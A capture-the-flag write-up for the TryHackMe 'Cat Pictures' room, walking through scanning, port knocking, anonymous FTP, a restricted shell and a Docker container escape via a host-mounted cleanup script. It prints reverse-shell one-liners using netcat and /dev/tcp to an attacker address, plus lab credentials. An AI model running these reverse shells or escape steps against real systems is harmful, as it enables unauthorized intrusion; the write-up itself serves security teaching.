 ```yaml
---
title: Cat Pictures
date: 2021-09-07 12:00:00
categories: [CTF, TryHackMe]
tags: [docker,port-knocking]     # TAG names should always be lowercase
---
```

![](https://tryhackme-images.s3.amazonaws.com/room-icons/0d75a543c66201b4aa996172b6043eb5.jpeg)
Link to room: [Cat Pictures](https://tryhackme.com/room/catpictures) 

## Enumeration

Our initial run of `nmap` gives us a small attack surface:

```bash 
┌──(user㉿kali-linux-2022-2)-[~]
└─$ nmap -sC -sV 10.10.94.199
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 20:08 EDT
Nmap scan report for 10.10.94.199
Host is up (0.087s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.89 seconds
```

## Port Knocking

Visiting the site on `8080` we find a phpBB instance with one message containing a not-so-subtle hint that we’ll need to use port-knocking. 

![Screenshot 2023-08-06 at 8.18.16 PM.png](/assets/cat-pictures/php.png)

We `apt install knockd` to get the `knock` client and call it with the “magic numbers” provided:

`knock 10.10.94.199 1111 2222 3333 4444`

## Initial Access

Running `nmap` again after knocknig we find an ftp site that allows anonymous login:

```
└─$ nmap -sC -sV 10.10.94.199                                                                           
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 20:18 EDT
Nmap scan report for 10.10.94.199
Host is up (0.087s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.1.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           162 Apr 02  2021 note.txt
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_  256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
8080/tcp open  http    Apache httpd 2.4.46 ((Unix) OpenSSL/1.1.1d PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: Cat Pictures - Index page
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Logging in to the ftp site as anonymous yields one file, `note.txt` with a clue about how to move forward. 

```bash
┌──(user㉿kali-linux-2022-2)-[~]
└─$ cat note.txt
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```

If we try to `ssh` to port 4420 it won’t connect, so we’ll use netcat to make a plain TCP connection. With the credentials supplied above we land in a heavily restricted shell.

```
┌──(user㉿kali-linux-2022-2)-[~]
└─$ nc 10.10.94.199 4420
INTERNAL SHELL SERVICE
please note: cd commands do not work at the moment, the developers are fixing it at the moment.
do not use ctrl-c
Please enter password:
runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.

cat runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.
Password accepted

```

## Escalation #1

Enumerating a bit we find there is almost nothing to look at, except for one file `runme` in our catlover’s directory. We have permissions to files in this directory so we assume that our account is catlover. 

```
ls -la /home/catlover
total 28
drwxr-xr-x 2 0 0  4096 Apr  3  2021 .
drwxr-xr-x 3 0 0  4096 Apr  2  2021 ..
-rwxr-xr-x 1 0 0 18856 Apr  3  2021 runme
```

We can’t run or even examine this file with our current shell……..

```
runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.

cat runme
THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL.
```

so it’s time to upgrade by starting a new listener and call it with  `rm -f /tmp/b; mkfifo /tmp/b; /bin/sh -i 2>&1 0</tmp/b | nc 10.6.1.1 4445 1>/tmp/b`

Back in our new shell we return to examine `runme`. The `strings` command isn’t available in our shell. We could download the file and inspect it locally but it’s not too large so we’ll just use `cat` to see what we can see.  `cat runme`

![runme](/assets/cat-pictures/Screenshot.png)


Scanning a bit we quickly find the string table near the beginning of the binary, and one string in particular that looks like a password.

Executing `runme` with the proper password drops an ssh key in home folder.

```
# ./runme
Please enter yout password: [redacted]
Welcome, catlover! SSH key transfer queued!
```

We can download this key to our attacker machine or just copy and paste it into a new file. We’ll need to change permissions on the key before we use it: 

`chmod 600 id_rsa`

And we can SSH into the box with `ssh -i id_rsa [catlover@10.10.94.199](mailto:catlover@10.10.94.199)`

## Escalation #2

We find ourselves in a Docker container. We’ve achieved root access, but only retrieved the first flag. Clearly the second flag is on the Docker host machine. 

#### 🐰 Rabbit Hole: Enumerate MariaDB

We find database credentials for MariaDB in the phpBB configuration file. We should enumerate while we’re here. 

`mysql --host mariadb --user=bn_phpbb --password bitnami_phpbb`

Searching through the DB we find the schema for the forum and a test schema. We inspect tables for users, posts, private messages ans drafts but find nothing of value. The database engine is running on a different IP than we are, so we run `system` commands to examine that environment, but this does not lead us out of Docker. 

### Escape the Docker Container

We have a script `clean.sh` in `/opt/clean` . Using `mount` we determine that this folder is mounted from the host OS.

```
(remote) root@7546fa2336d6:/opt/clean# mount
[...]
/dev/xvda1 on /bitnami/phpbb type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /opt/clean type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/hostname type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/xvda1 on /etc/hosts type ext4 (rw,relatime,errors=remount-ro,data=ordered)
[...]
(remote) root@7546fa2336d6:/opt/clean#
```

#### 🐰 Rabbit Hole: Two Shells scenario

We have a shell inside and outside of the container, and there are some exploits in this scenario [as documented on HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#privilege-escalation-with-2-shells-and-host-mount). Unfortunately our host shell does not have access to the shared mount point to execute scenario #1, and we can’t run `ps` to execute scenario #2.  

Turning our attention back to `clean.sh` we note that it simply empties the `/tmp` directory. 

```bash
#!/bin/bash

rm -rf /tmp/*
```

Adding a file to our local `/tmp` directory and waiting just a few minutes (this is a CTF after all…) we see that the `clean.sh` script isn’t executing against our filesystem in the container. If it’s being called on the host side, this would be a path to escape the container. 

Let’s try sticking a reverse shell in there just in case:

`echo "bash -i >& /dev/tcp/10.6.1.1/4446 0>&1" > clean.sh`

Waiting another minute or two rewards us with a shell triggered by root on the docker host. We find our second flag at `/root` as usual. 

Thanks go out to [gamercat](https://tryhackme.com/p/gamercat) for a fun box!